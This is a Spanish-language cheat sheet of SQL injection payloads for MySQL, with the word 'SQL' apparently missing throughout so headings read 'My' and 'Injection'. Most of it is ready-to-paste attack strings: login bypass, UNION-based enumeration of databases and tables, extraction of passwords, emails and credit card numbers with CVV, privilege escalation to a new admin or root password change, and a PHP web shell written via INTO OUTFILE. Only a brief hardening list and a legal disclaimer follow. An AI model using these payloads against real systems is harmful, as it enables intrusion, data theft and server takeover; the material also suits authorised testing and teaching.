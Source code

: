 # 📌 Manual de Injection en My

## 🛠 1. Identificar si una entrada es vulnerable

### 1.1. Probar si hay error de

Colocamos una comilla en la entrada para ver si genera un error:

```
'
```

### 1.2. Intentar autenticación bypass con condición OR

```
' OR '1'='1
```

### 1.3. Verificar si la inyección afecta a consultas numéricas

```
1 OR 1=1
```

---

## 📌 2. Obtener información básica de My

### 2.1. Obtener la versión de la base de datos

```
' UNION SELECT @@version, NULL; --
```

### 2.2. Obtener el nombre de la base de datos actual

```
' UNION SELECT database(), NULL; --
```

### 2.3. Obtener el usuario actual de la base de datos

```
' UNION SELECT user(), NULL; --
```

### 2.4. Obtener los usuarios de la base de datos

```
' UNION SELECT user, NULL FROM my.user; --
```

---

## 📌 3. Enumerar bases de datos y tablas

### 3.1. Listar todas las bases de datos

```
' UNION SELECT schema_name, NULL FROM information_schema.schemata; --
```

### 3.2. Listar todas las tablas de la base de datos actual

```
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = database(); --
```

### 3.3. Listar todas las columnas de una tabla específica

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users'; --
```

---

## 📌 4. Extraer información sensible

### 4.1. Obtener usuarios y contraseñas de una tabla de usuarios

```
' UNION SELECT user, password FROM users; --
```

### 4.2. Obtener correos electrónicos almacenados

```
' UNION SELECT user,email FROM users; --
```

### 4.3. Obtener tarjetas de crédito (si existen en la base de datos 😈)

```
' UNION SELECT card_number, card_cvv FROM credit_cards; --
```

---

## 📌 5. Bypass de autenticación

### 5.1. Iniciar sesión sin contraseña

```
' OR '1'='1' --
```

### 5.2. Iniciar sesión con usuario específico

```
' OR username='admin' --
```

---

## 📌 6. Escalar privilegios en My

### 6.1. Verificar si el usuario actual tiene privilegios de administrador

```
' UNION SELECT user, host, authentication_string FROM my.user; --
```

### 6.2. Intentar crear un nuevo usuario administrador

' UNION SELECT "GRANT ALL PRIVILEGES ON _._ TO 'hacker'@'%' IDENTIFIED BY 'password';"; --

### 6.3. Cambiar la contraseña del usuario root

' UNION SELECT "UPDATE my.user SET authentication_string=PASSWORD('nueva_contraseña') WHERE user='root';"; --

---

## 📌 7. Cargar archivos maliciosos (Web Shells)

### 7.1. Escribir un archivo en el servidor (Web Shell en PHP)

```
' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'; --
```

---

## 📌 8. Blindar la base de datos contra Injection

Si eres administrador, usa estas medidas para evitar ataques:

✅ _Usar consultas preparadas_ con myi o PDO en PHP.  
✅ _Restringir permisos_ de usuarios en la base de datos.  
✅ _Validar y escapar datos_ de entrada correctamente.  
✅ _Configurar un firewall (WAF)_ para bloquear patrones de Injection.

---

## ⚠ _Aviso Legal_

Este documento es solo para _fines educativos y pruebas en entornos controlados_ como Dojo o DVWA. _Usar estas técnicas sin permiso es ilegal._

---

_📌 Autor:_ [Tu Nombre o Alias]  
🚀 _Última actualización:_ 2025
